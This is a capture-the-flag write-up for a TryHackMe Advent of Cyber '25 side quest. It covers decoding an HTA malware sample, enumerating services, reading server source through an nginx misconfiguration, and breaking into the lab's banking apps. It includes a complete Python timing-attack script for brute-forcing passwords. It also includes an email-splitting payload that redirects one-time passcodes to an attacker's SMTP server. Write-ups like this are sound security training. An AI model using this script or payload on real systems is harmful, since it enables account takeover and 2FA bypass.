This box is the final side quest for THM’s Advent of Cyber ‘25, it is ranked hard difficulty and involves enumerating server files, pivoting through applications, and OTP auth bypass to grab all flags.

_Hopper needs your help to get the final key to the throne room._

## Getting Key
In order to get access to this box, we first need a key from AOC ’25 day 21. We do so by downloading the HTA file and opening it with a text/code editor.

Unlocking the file with the password they gave us shows that it’s another malware example. We only need to decode the payloads a few times as all the other code is functionality for it to execute.

I started by deleting every line before and after the payload along with the “p=” before it so we’re left with the separate lines and the characters between them. Then I used the command below to base64 decode the payload and output it to a file.

```
sed ':a;N;$!ba;s/[&_"]//g;s/[[:space:]]//g' NorthPolePerformanceReview.hta | base64 -d > b64.txt
```

Opening this shows something similar to the first one but the payload is already concatenated so delete everything other than that string and base64 decode it.

This now leaves us with file full of data that needs to be XOR decrypted (the key is 23), so send it to CyberChef and import the file as our input. The recipe from here on is:

XOR (key=23, Decimal, Standard scheme) -> Render Image.



Boom! That’s our key to start the box, now let’s head over to SQ4.

## Scanning & Enumeration
First things first, let’s run an Nmap scan after unlocking the box on port 21337 with our recovered code.

```
$ nmap -p22,25,8443,21337 -sCV 10.64.140.111 -oN fullscan.tcp
Starting Nmap 7.80 ( https://nmap.org ) at 2025-12-30 21:57 GMT
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 10.64.140.111
Host is up (0.00023s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
| smtp-commands: hostname, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
|_ 2.0.0 Commands: AUTH BDAT DATA EHLO ETRN HELO HELP MAIL NOOP QUIT RCPT RSET STARTTLS VRFY XCLIENT XFORWARD 
8443/tcp  open  ssl/http nginx 1.29.3
|_http-server-header: nginx/1.29.3
|_http-title: Mobile Portal
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Not valid before: 2025-12-11T05:00:31
|_Not valid after:  2026-12-11T05:00:31
| tls-alpn: 
|   h2
|_  http/1.1
21337/tcp open  unknown
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.1 Python/3.12.3
|     Date: Tue, 30 Dec 2025 21:57:56 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 15548
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <link rel="icon" type="image/png" href="/static/hat.svg" />
|     <meta charset="UTF-8" />
|     <meta name="viewport" content="width=device-width, initial-scale=1.0" />
|     <title>Unlock Hopper's Memories</title>
|     <style>
|     :root {
|     --pastel-pink: #ffb3d9;
|     --pastel-yellow: #fff4a3;
|     --pastel-green: #b3ffb3;
|     --pastel-blue: #b3d9ff;
|     --pastel-purple: #d9b3ff;
|     --easter-egg-blue: #87ceeb;
|     --easter-egg-pink: #ffc0cb;
|     --easter-egg-yellow: #ffeb3b;
|     --easter-egg-green: #90ee90;
|     --soft-white: #fffef7;
|     --warm-brown: #8b4513;
|     margin: 0;
|     padding: 0;
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.1 Python/3.12.3
|     Date: Tue, 30 Dec 2025 21:57:56 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, OPTIONS, HEAD
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```

We have 4 ports open:
- SSH on port 22
- SMTP on port 25
- An nginx server on port 8443 (with SSL)
- A python web server on port 21337 (using Werkzeug)

We have some commands available to us on SMTP so I start by enumerating that port with Metasploit before heading over to the web server.



I don’t find anything so let’s pop on over to the nginx server. I check the certificate for any more info and got nothing. Landing on the page, we see a mobile portal with a few apps installed.

Thinking back to the storyline given to us on THM, it hints at us taking control of the bank account and acquiring the funds in it.

_Hopper must somehow pivot into the linked bank account, and, outsmarting the layered authentication around it, he can wrest control of the funds before King Malhare’s cronies move them for good._

We need an account number and a pin to sign into the banking app, so let’s enumerate the phone some more.


The email field in Hopflix is prefilled which grants us Sir BreachBlocker’s email. Checking his inbox discloses that the charity funds are locked



There were some interesting text messages to say the least but the only other thing of note was an option to disable the face id on the authenticator, however that requires a 6 digit passcode.

Looking at the source code on this port is long but also may disclose a portion of his bank account number.



A bit more digging and we finally find the phone passcode hardcoded in main.js . Now we can turn off the authenticator face id so we don’t have issues in the future.



I end up capturing a request to the bank-login API in Burp Suite to try enumerating the account_id but hit a dead end.



The Mobile application didn’t really pan out, so I run a few Ffuf scans which brings forth an exposed nginx configuration file. This is absolutely golden as we can see how the server functions!



Reading through it, that try_files directive is interesting to me as it tells the web server to find the URI and serve it to us. This looks normal until you realizing that when the URI doesn’t exist, that request then gets forwarded back to uWSGI .



This is good info and may let us read the files directly from the web application’s directory. Let’s put this to the test.

## Exploitation
I capture a request in Burp Suite and start testing common Python filenames like app.py, hello.py, etc. However,main.py grants us the first of three flags in the credentials section.



Among the first flag are two database endpoints for Hopflix and Hopsec Bank. Checking them out shows that only the hopflix DB exists. After downloading it, I use sqlite3 to dump the users table which gives us an incredibly long password hash for Sir BreachBlocker.

Looking back at the main.py code shows that each character in his hash is SHA-1 encrypted a whopping 5000 times and then concatenated at the end.



Now I’m not too sure if it’s possible to reverse this but we can examine the hashes structure. Since SHA-1 outputs 40 characters per single one, the password must be 12 characters long.



Taking some time to make sense of the python code, I find that if we supply a password of this length we’re able to bypass the first check. The second check hashes each character in the password and compares them in sequence to the valid password.

This means that we can effectively brute force the password by supplying characters and waiting for the app to respond (time-based attack).

I’m not a great coder by any means so I let ChatGPT and ClaudeAI do the heavy lifting on writing a script to test this attack out. A half hour of debugging later leaves me with pseudo-successful code which let’s us enumerate the password against the check-credentials API.

Time-Based attack script:

```
import statistics as stats
import requests
import string
import urllib3
import time

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

API_ENDPOINT = "https://MACHINE_IP:8443/api/check-credentials"
USER_EMAIL = "sbreachblocker@easterbunnies.thm"
SECRET_LEN = 12
ATTEMPTS_PER_GUESS = 25
ALPHABET = list(string.ascii_lowercase)

def probe_latency(candidate_password):
    payload = {
        "email": USER_EMAIL,
        "password": candidate_password
    }

    start_ts = time.perf_counter()
    try:
        resp = requests.post(
            API_ENDPOINT,
            json=payload,
            verify=False,
            timeout=30
        )
        end_ts = time.perf_counter()
        return end_ts - start_ts, resp.status_code, resp.json()
    except Exception as err:
        print(f"    [!] Error: {err}")
        return 0, None, None

def evaluate_char(prefix, index, alphabet):
    print(f"\n[*] Testing position {index + 1}/{SECRET_LEN}")
    print(f"    Progress: '{prefix}' + {'?' * (SECRET_LEN - len(prefix))}")
    print("_" * 70)

    latency_table = {}

    for idx, letter in enumerate(alphabet):
        filler_len = SECRET_LEN - len(prefix) - 1
        guess = prefix + letter + ('X' * filler_len)

        samples = []
        for _ in range(ATTEMPTS_PER_GUESS):
            elapsed, status, body = probe_latency(guess)
            samples.append(elapsed)

            if body and body.get("valid"):
                print(f"\n{'_' * 70}")
                print("PASSWORD DETECTED!")
                print(f"Password: {guess}")
                print(f"{'_' * 70}")
                return guess, True

        avg_latency = stats.mean(samples)
        deviation = stats.stdev(samples) if len(samples) > 1 else 0
        latency_table[letter] = {
            "mean": avg_latency,
            "std": deviation,
            "raw": samples
        }

        display = repr(letter) if letter in "\n\r\t" else letter
        print(
            f"    [{idx + 1:3d}/{len(alphabet)}] '{display}' -> "
            f"avg: {avg_latency * 1000:.2f}ms, std: {deviation * 1000:.2f}ms",
            end="\r"
        )

    print()

    ranked = sorted(
        latency_table.items(),
        key=lambda x: x[1]["mean"],
        reverse=True
    )

    print("\n    Top 5 slowest (most likely correct):")
    for i, (char, data) in enumerate(ranked[:5]):
        display = repr(char) if char in "\n\r\t" else char
        print(
            f"      {i + 1:2d}. '{display}' -> "
            f"{data['mean'] * 1000:.2f}ms (±{data['std'] * 1000:.2f}ms)"
        )

    chosen_char = ranked[0][0]
    chosen_time = ranked[0][1]["mean"]

    print(f"\n    [✓] Selected: '{chosen_char}' (took {chosen_time * 1000:.2f}ms)")

    return chosen_char, False

def execute_timing_attack():
    recovered = ""

    for pos in range(SECRET_LEN):
        result, complete = evaluate_char(recovered, pos, ALPHABET)

        if complete:
            return result

        recovered += result

        print(f"\n{'_' * 70}")
        print(recovered)
        print(f"{'_' * 70}")

    return recovered

if __name__ == "__main__":
    try:
        final_secret = execute_timing_attack()

        print(f"Discovered password: {final_secret}")
        print(f"Length: {len(final_secret)} characters")

        elapsed, status, body = probe_latency(final_secret)

        if body and body.get("valid"):
            print("[✓] PASSWORD CORRECT! Login successful!")
        else:
            print(f"[X] Password is incorrect. Response: {body}")

        print(f"{'_' * 70}")

    except KeyboardInterrupt:
        print("\n\n[!] Interrupted")
```

This script iterates through all characters in place of the 12-character long password and outputs the most likely based on the timing delay. I let it run for a while coming back to a potential password.

_Note: You will need to use the Attack Box for this portion as VPN connections heavily bog down our timing guesses. Comparing the two outputs (Kali and Attack Box) I got two completely different passwords on top of the AB being faster altogether._



_Timing attacks are always a bit finicky especially when we’re guessing like this._

Using this to sign into Hopflix confirms it works and we grab the second flag.



This page doesn’t have any other functionality besides hosting the second flag so let’s try these creds for the hopsec bank app too. This works but we’re prompted to select an email for our one time pass to go to.



Either option needs the six digit passcode from that email account.



Looking back at the code used to generate such code shows that it is truly random.



However the logic behind how the application handles emails is deeply flawed. It does a few checks to make sure the email address is valid, the correct structure, and is in the allowed emails/domains lists.



The real problem here is this line:

```
if domain not in allowed_domains and to_addr not in allowed_emails:
        return -1
```

This doesn’t ensure that both the domain and email address are valid. Due to how it extracts the domain from the email address, we’re able to alter our email so that it matches to an allowed domain but is directed towards our IP.

There is a known vulnerability within SMTP and it allows for us to comment out a part of our email address. [This](https://portswigger.net/research/splitting-the-email-atom) is an article going deeper on exploiting email parsers to bypass these types of checks.

Our payload will look like: `attacker@[ATTACKING_IP](@easterbunnies.thm`

We’ll need to host an SMTP server in order to receive the one time pass too. Since Kali Linux doesn’t come default with one I use a tool called aiosmtpd. You can install it with `apt install python3-aiosmtpd` on Debian/Ubuntu.

I set up a listener on port 25 and then capture a POST request to the /api/send2fa endpoint, changing the email field to our payload. Wait a moment and we have our OTP at last.



